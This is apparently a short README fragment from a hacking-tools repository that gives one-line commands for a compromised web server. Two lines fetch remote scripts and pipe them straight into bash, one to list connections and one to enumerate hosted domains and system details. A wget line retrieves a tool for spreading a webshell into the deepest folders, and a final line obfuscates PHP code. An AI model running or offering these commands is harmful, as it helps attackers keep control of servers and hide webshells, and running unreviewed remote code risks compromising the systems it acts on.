 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
